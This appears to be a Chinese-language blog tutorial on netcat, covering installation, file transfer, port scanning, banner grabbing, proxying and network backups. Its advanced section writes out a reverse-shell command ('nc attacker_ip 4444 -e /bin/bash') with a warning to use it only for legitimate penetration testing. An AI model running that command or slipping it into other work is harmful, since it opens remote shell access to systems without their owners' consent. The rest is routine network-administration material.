 ```yaml
---
title: "Netcat (nc) - 网络瑞士军刀"
author: Kk
date: 2024-03-14
category: DevOps
layout: post
tags: [networking, netcat, linux, devops, tools]
excerpt: "Netcat是一个功能强大的网络工具，被称为网络界的瑞士军刀。本文介绍nc的基本用法和高级技巧。"
---
```


# Netcat (nc) - 网络瑞士军刀 🔧

> Netcat是一个功能强大的网络工具，可以用于端口扫描、文件传输、聊天服务器等多种用途。

## 📦 安装

### CentOS/RHEL/Fedora
```bash
# 安装netcat
yum install netcat -y
# 或者
dnf install netcat -y
```

### Ubuntu/Debian
```bash
# 安装netcat-traditional
apt-get install netcat-traditional -y
# 或者安装netcat-openbsd
apt-get install netcat-openbsd -y
```

## 🚀 基本用法

### 文件传输

**接收端 (Server):**
```bash
# 监听12345端口，将接收的数据保存到file.tgz
nc -l -p 12345 > file.tgz
```

**发送端 (Client):**
```bash
# 连接到服务器并发送文件
nc <server_ip> 12345 < file.tgz
```

### 端口扫描
```bash
# 扫描单个端口
nc -vz target_host 22

# 扫描端口范围
nc -vz target_host 20-25

# 扫描多个端口
nc -vz target_host 22 80 443
```

### 简易聊天服务器
```bash
# 服务器端
nc -l -p 1234

# 客户端
nc server_ip 1234
```

## 🔧 高级用法

### Banner抓取
```bash
# 获取SSH服务banner
echo "" | nc target_host 22

# 获取HTTP服务banner
echo "HEAD / HTTP/1.0\n\n" | nc target_host 80
```

### 反向Shell
```bash
# 攻击者监听
nc -l -p 4444

# 目标机器执行
nc attacker_ip 4444 -e /bin/bash
```

⚠️ **安全警告**: 反向Shell功能仅用于合法的渗透测试和系统管理，请勿用于非法目的。

### 创建代理
```bash
# 将本地1234端口的流量转发到远程服务器的80端口
mkfifo /tmp/pipe
nc -l -p 1234 < /tmp/pipe | nc target_host 80 > /tmp/pipe
```

## 📊 常用参数

| 参数 | 说明 |
|------|------|
| `-l` | 监听模式 |
| `-p` | 指定端口 |
| `-v` | 详细输出 |
| `-z` | 扫描模式，不发送数据 |
| `-u` | UDP模式 |
| `-n` | 不使用DNS解析 |
| `-w` | 设置超时时间 |
| `-e` | 执行程序 |

## 💡 实用技巧

### 1. 测试网络连通性
```bash
# 测试TCP连接
nc -vz google.com 80

# 测试UDP连接
nc -vzu dns.google 53
```

### 2. 创建简单HTTP服务器
```bash
# 创建index.html
echo "<h1>Hello World</h1>" > index.html

# 启动简单HTTP服务
while true; do nc -l -p 8080 < index.html; done
```

### 3. 备份通过网络传输
```bash
# 发送端 (压缩并传输)
tar czf - /path/to/backup | nc target_host 1234

# 接收端 (接收并解压)
nc -l -p 1234 | tar xzf -
```

## 🔒 安全注意事项

1. **防火墙配置**: 使用nc进行文件传输时，确保防火墙允许相应端口通信
2. **加密传输**: 对于敏感数据，考虑使用SSH隧道或其他加密方式
3. **访问控制**: 在生产环境中谨慎使用nc的监听功能
4. **日志监控**: 监控nc的使用情况，防止恶意使用

## 📚 相关工具

- **nmap**: 更专业的端口扫描工具
- **socat**: nc的增强版本
- **telnet**: 简单的网络测试工具
- **curl**: HTTP客户端工具

---

💡 **小贴士**: Netcat是系统管理员和网络工程师的必备工具之一，掌握其基本用法可以大大提高工作效率。